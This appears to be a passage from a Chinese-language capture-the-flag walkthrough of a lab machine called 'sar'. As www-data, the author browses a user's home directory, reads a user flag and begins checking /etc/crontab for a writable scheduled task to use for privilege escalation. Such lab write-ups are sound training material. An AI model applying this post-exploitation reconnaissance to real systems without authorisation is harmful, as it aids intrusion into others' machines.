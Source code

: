   ```
  total 12K
  262146 drwxr-xr-x  3 root root 4.0K Oct 20  2019 .
       2 drwxr-xr-x 24 root root 4.0K Oct 20  2019 ..
  295199 drwxr-xr-x 17 love love 4.0K Oct 21  2019 love
  www-data@sar:/home$ cd love
  cd love
  www-data@sar:/home/love$ ls -lhai
  ls -lhai
  total 92K
  295199 drwxr-xr-x 17 love love 4.0K Oct 21  2019 .
  262146 drwxr-xr-x  3 root root 4.0K Oct 20  2019 ..
  282869 -rw-------  1 love love 3.1K Oct 21  2019 .ICEauthority
  282871 -rw-------  1 love love   48 Oct 21  2019 .bash_history
  270978 -rw-r--r--  1 love love  220 Oct 20  2019 .bash_logout
  270977 -rw-r--r--  1 love love 3.7K Oct 20  2019 .bashrc
  400690 drwx------ 13 love love 4.0K Oct 21  2019 .cache
  400783 drwx------ 13 love love 4.0K Oct 20  2019 .config
  408810 drwx------  3 root root 4.0K Oct 20  2019 .dbus
  400570 drwx------  3 love love 4.0K Oct 20  2019 .gnupg
  295196 drwx------  2 root root 4.0K Oct 20  2019 .gvfs
  400693 drwx------  3 love love 4.0K Oct 20  2019 .local
  270979 -rw-r--r--  1 love love  807 Oct 20  2019 .profile
  282936 -rw-r--r--  1 root root   66 Oct 20  2019 .selected_editor
  406263 drwx------  2 love love 4.0K Oct 20  2019 .ssh
  282870 -rw-r--r--  1 love love    0 Oct 20  2019 .sudo_as_admin_successful
  400951 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Desktop
  400955 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Documents
  400952 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Downloads
  400956 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Music
  400957 drwxr-xr-x  2 love love 4.0K Oct 21  2019 Pictures
  400954 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Public
  400953 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Templates
  400958 drwxr-xr-x  2 love love 4.0K Oct 20  2019 Videos
  www-data@sar:/home/love$ cd Desktop
  cd Desktop
  www-data@sar:/home/love/Desktop$ ls -lhai
  ls -lhai
  total 12K
  400951 drwxr-xr-x  2 love love 4.0K Oct 20  2019 .
  295199 drwxr-xr-x 17 love love 4.0K Oct 21  2019 ..
  406266 -rw-r--r--  1 love love   33 Oct 20  2019 user.txt
  www-data@sar:/home/love/Desktop$ cat user.txt
  cat user.txt
  427a7e47deb4a8649c7cab38df232b52
  www-data@sar:/home/love/Desktop$ 
  ```

- 查找当前系统定时任务-->有一个5分钟的定时任务,发现该定时任务具有当前`www-data`用户可写可执行权限

- ```shell
  www-data@sar:/home/love/Desktop$ cat /etc/crontab
  cat /etc/crontab
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file